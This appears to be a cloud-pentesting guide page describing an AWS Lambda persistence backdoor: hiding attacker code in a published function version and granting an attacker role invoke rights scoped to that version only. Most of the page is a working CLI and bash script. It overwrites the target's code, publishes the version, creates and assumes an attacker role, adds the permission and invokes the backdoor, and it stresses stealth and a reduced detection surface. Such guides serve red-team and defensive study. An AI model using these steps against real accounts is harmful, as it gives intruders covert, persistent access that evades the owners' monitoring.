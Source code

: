 # AWS - Lambda Alias-Scoped Resource Policy Backdoor (Invoke specific hidden version)

## Summary

Create a hidden Lambda version with attacker logic and scope a resource-based policy to that specific version (or alias) using the `--qualifier` parameter in `lambda add-permission`. Grant only `lambda:InvokeFunction` on `arn:aws:lambda:REGION:ACCT:function:FN:VERSION` to an attacker principal. Normal invocations via the function name or primary alias remain unaffected, while the attacker can directly invoke the backdoored version ARN.

This is stealthier than exposing a Function URL and doesn’t change the primary traffic alias.

## Required Permissions (attacker)

- `lambda:UpdateFunctionCode`, `lambda:UpdateFunctionConfiguration`, `lambda:PublishVersion`, `lambda:GetFunctionConfiguration`
- `lambda:AddPermission` (to add version-scoped resource policy)
- `iam:CreateRole`, `iam:PutRolePolicy`, `iam:GetRole`, `sts:AssumeRole` (to simulate an attacker principal)

## Attack Steps (CLI)

<details>
**Publish hidden version, add qualifier\-scoped permission, invoke as attacker**

```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# [Optional] If you want normal traffic unaffected, ensure a customer alias (e.g., "main") stays on a clean version
# aws lambda create-alias --function-name "$TARGET_FN" --name main --function-version <clean-version> --region "$REGION"

# 1) Build a small backdoor handler and publish as a new version
cat > bdoor.py <<PY
import json, os, boto3

def lambda_handler(e, c):
    ident = boto3.client(sts).get_caller_identity()
    return {"ht": True, "who": ident, "env": {"fn": os.getenv(AWS_LAMBDA_FUNCTION_NAME)}}
PY
zip bdoor.zip bdoor.py
aws lambda update-function-code --function-name "$TARGET_FN" --zip-file fileb://bdoor.zip --region $REGION
aws lambda update-function-configuration --function-name "$TARGET_FN" --handler bdoor.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --region $REGION --query LastUpdateStatus --output text)" = "Successful" ]; do sleep 2; done
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
VER_ARN=$(aws lambda get-function --function-name "$TARGET_FN:$VER" --region $REGION --query Configuration.FunctionArn --output text)
echo "Published version: $VER ($VER_ARN)"

# 2) Create an attacker principal and allow only version invocation (same-account simulation)
ATTACK_ROLE_NAME=ht-version-invoker
aws iam create-role --role-name $ATTACK_ROLE_NAME --assume-role-policy-document Version:2012-10-17 >/dev/null
cat > /tmp/invoke-policy.json <<POL
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["lambda:InvokeFunction"],
    "Resource": ["$VER_ARN"]
  }]
}
POL
aws iam put-role-policy --role-name $ATTACK_ROLE_NAME --policy-name ht-invoke-version --policy-document file:///tmp/invoke-policy.json

# Add resource-based policy scoped to the version (Qualifier)
aws lambda add-permission \
  --function-name "$TARGET_FN" \
  --qualifier "$VER" \
  --statement-id ht-version-backdoor \
  --action lambda:InvokeFunction \
  --principal arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME \
  --region $REGION

# 3) Assume the attacker role and invoke only the qualified version
ATTACK_ROLE_ARN=arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME
CREDS=$(aws sts assume-role --role-arn "$ATTACK_ROLE_ARN" --role-session-name htInvoke --query Credentials --output json)
export AWS_ACCESS_KEY_ID=$(echo $CREDS | jq -r .AccessKeyId)
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | jq -r .SecretAccessKey)
export AWS_SESSION_TOKEN=$(echo $CREDS | jq -r .SessionToken)
aws lambda invoke --function-name "$VER_ARN" /tmp/ver-out.json --region $REGION >/dev/null
cat /tmp/ver-out.json

# 4) Clean up backdoor (remove only the version-scoped statement). Optionally remove the role
aws lambda remove-permission --function-name "$TARGET_FN" --statement-id ht-version-backdoor --qualifier "$VER" --region $REGION || true
```

</details>

## Impact

- Grants a stealthy backdoor to invoke a hidden version of the function without modifying the primary alias or exposing a Function URL.
- Limits exposure to only the specified version/alias via the resource-based policy `Qualifier`, reducing detection surface while retaining reliable invocation for the attacker principal.

